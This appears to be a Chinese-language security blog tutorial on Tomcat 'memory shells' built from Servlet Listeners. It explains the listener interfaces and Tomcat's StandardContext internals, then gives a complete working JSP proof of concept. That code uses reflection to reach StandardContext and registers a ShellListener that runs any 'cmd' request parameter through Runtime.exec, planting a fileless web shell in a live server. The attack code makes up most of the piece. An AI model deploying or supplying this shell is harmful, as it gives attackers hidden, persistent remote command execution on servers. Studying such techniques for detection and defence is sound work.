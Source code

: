 ## Listener

Listener 可以译为监听器，监听器用来监听对象或者流程的创建与销毁，通过 Listener，可以自动触发一些操作

在应用中可能调用的监听器如下：

- ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
- ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
- ServletRequestListener：对 Request 请求进行监听（创建、销毁）
- ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）
- javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
- javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听

可以看到 Listener 也是为一次访问的请求或生命周期进行服务的，在上述每个不同的接口中，都提供了不同的方法，用来在监听的对象发生改变时进行触发。

ServletRequestListener用于监听ServletRequest对象的，当访问任意资源时，都会触发`ServletRequestListener#requestInitialized()`方法

**实现一个恶意的listener**

```java
package org.example.javaweb;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;

@WebListener
public class ShellListener implements ServletRequestListener {
    @Override
    public void requestInitialized(ServletRequestEvent sre){
        HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        if(cmd !=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    @Override
    public void requestDestroyed(ServletRequestEvent sre){}
}

```

访问任意路由使用对应的参数可以触发

![image-20240703205108067](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703205108067.png)

将断点下在requestInitialized方法处，看调用栈

![image-20240703205341282](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703205341282.png)



**StandardContext#fireRequestInitEvent**

![image-20240703210008539](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703210008539.png)

该方法首先定义了一个instances数组，调用getApplicationEvenListeners()来获取listener对象，后续遍历event，依次调用listerner.requestInitialized解析event

![image-20240703210436316](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703210436316.png)

跟进到**getApplicationEvenListeners()方法**

![image-20240717170944701](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240717170944701.png)

listener对象存储在该字段当中

通过StandardContext#addApplicationEventListener()来进行listener的添加

![image-20240717171006216](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240717171006216.png)

### POC编写

**获取standardContext对象**

```jsp
<%
    //获取ApplicationContextFaced类
    ServletContext servletContext = request.getSession().getServletContext();
    //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
    Field appContext = servletContext.getClass().getDeclaredField("context");
    appContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
    //获取StandardContext
    Field stdContext = applicationContext.getClass().getDeclaredField("context");
    stdContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
%>

```

**构造恶意listener**

```java
public class ShellListener implements ServletRequestListener {
    @Override
    public void requestInitialized(ServletRequestEvent sre){
        HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        if(cmd !=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    @Override
    public void requestDestroyed(ServletRequestEvent sre){}
}
```

**最后添加监听器**

```jsp
<%
    ShellListener shellListener = new ShellListener();
    standardContext.addApplicationEventListener(shellListener);
%>
```

**完整poc**

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%--
  Created by IntelliJ IDEA.
  User: Administrator
  Date: 2024/7/3
  Time: 21:24
  To change this template use File | Settings | File Templates.
--%>
<%
    //获取ApplicationContextFaced类
    ServletContext servletContext = request.getSession().getServletContext();
    //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
    Field appContext = servletContext.getClass().getDeclaredField("context");
    appContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
    //获取StandardContext
    Field stdContext = applicationContext.getClass().getDeclaredField("context");
    stdContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
%>
<%!
    public class ShellListener implements ServletRequestListener {
        @Override
        public void requestInitialized(ServletRequestEvent sre){
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
            String cmd = request.getParameter("cmd");
            if(cmd !=null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
        @Override
        public void requestDestroyed(ServletRequestEvent sre){}
    }
%>
<%
    ShellListener shellListener = new ShellListener();
    standardContext.addApplicationEventListener(shellListener);
%>
```

![image-20240703213129811](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240703213129811.png)

效果如上

